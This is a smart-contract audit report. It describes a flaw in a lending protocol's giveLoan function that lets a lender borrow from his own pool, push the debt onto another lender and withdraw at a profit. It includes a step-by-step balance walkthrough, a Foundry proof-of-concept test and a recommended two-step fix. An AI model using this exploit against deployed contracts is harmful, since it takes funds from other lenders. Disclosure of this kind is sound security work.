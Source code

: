 # H-01 Malicious lender gains value by borrowing from his pool and giving the loan away

## Severity

Medium

## Summary

Lender can borrow from his own pool. When he does that, he can give loan to other pool. Giving away the loan adds debt amount - fee to his pool balance. After withdrawing he has his initial pool balance + debt - fee. This can be profitable when tokens gained have higher value then collateral lost.

## Vulnerability Details

There is no check that lender can't borrow from his pool. If there was, he could create second address. If conditions are satisfied, this malicious lender can give the loan to other pool, withdraw and end up with more loan tokens than he started with.

Lender starts with 100,000.
Wallet balance: 100,000

Pool is deployed.
Pool balance: 100,000
Wallet balance: 0
Debt: 0

Lender borrows 100.
Pool balance: 99,900
Wallet balance: 100
Debt: 100

Lender gives away the loan.
Pool balance: 99,999.5
Wallet balance: 100
Debt: 0

Lender withdraws.
Wallet balance: 100,099.5

Lender profited 99.5 tokens. When those tokens are more valuable than collateral lost in the process, he gained value. 

### POC

Simplified POC was created to demonstrate the flow. It can be run by code below in Lender.t.sol.

```
forge test --match-contract LenderTest --match-test test_stealFromOtherPool
```

```solidity
function test_stealFromOtherPool() public {
    address attacker = address(0x5);
    loanToken.mint(address(attacker), 100000*10**18);
    collateralToken.mint(address(attacker), 100000*10**18);

    // lender creates a pool
    vm.startPrank(lender1);
    Pool memory pLender = Pool({
        lender: lender1,
        loanToken: address(loanToken),
        collateralToken: address(collateralToken),
        minLoanSize: 100*10**18,
        poolBalance: 1000*10**18,
        maxLoanRatio: 2*10**18,
        auctionLength: 1 days,
        interestRate: 1000,
        outstandingLoans: 0
    });
    bytes32 lenderPoolId = lender.setPool(pLender);
    vm.stopPrank();

    // attacker creates same pool as lender
    vm.startPrank(attacker);
    loanToken.approve(address(lender), 1000000*10**18);
    uint attackerLoanTokenBefore = loanToken.balanceOf(attacker);
    Pool memory pAttacker = Pool({
        lender: attacker,
        loanToken: address(loanToken),
        collateralToken: address(collateralToken),
        minLoanSize: 100*10**18,
        poolBalance: 1000*10**18,
        maxLoanRatio: 2*10**18,
        auctionLength: 1 days,
        interestRate: 1000,
        outstandingLoans: 0
    });
    bytes32 attackerPoolId = lender.setPool(pAttacker);

    // attacker borrows from his pool
    collateralToken.approve(address(lender), 1000000*10**18);
    Borrow memory b = Borrow({
        poolId: attackerPoolId,
        debt: 100*10**18,
        collateral: 100*10**18
    });
    Borrow[] memory borrows = new Borrow[](1);
    borrows[0] = b;
    lender.borrow(borrows);

    // attacker gives loan to lender
    uint256[] memory loanIds = new uint256[](1);
    loanIds[0] = 0;
    bytes32[] memory poolIds = new bytes32[](1);
    poolIds[0] = lenderPoolId;

    lender.giveLoan(loanIds, poolIds);

    // attacker withdraws from his pool
    (,,,,uint256 poolBalance,,,,) = lender.pools(attackerPoolId);
    lender.removeFromPool(attackerPoolId, poolBalance);

    vm.stopPrank();

    // attacker profits
    uint attackerLoanTokenAfter = loanToken.balanceOf(attacker);
    assert(attackerLoanTokenAfter > attackerLoanTokenBefore);
}
```

## Impact

Malicious lender can profit from other lenders by giving them his loans from his pool. Other lenders can't defend themselves against such practices.

## Tools Used

Manual review

## Recommendations

Add two-step transfer to giveLoan feature. First, lender sends transaction to give loan away. The receiving lender would have to send his transaction to accept this loan.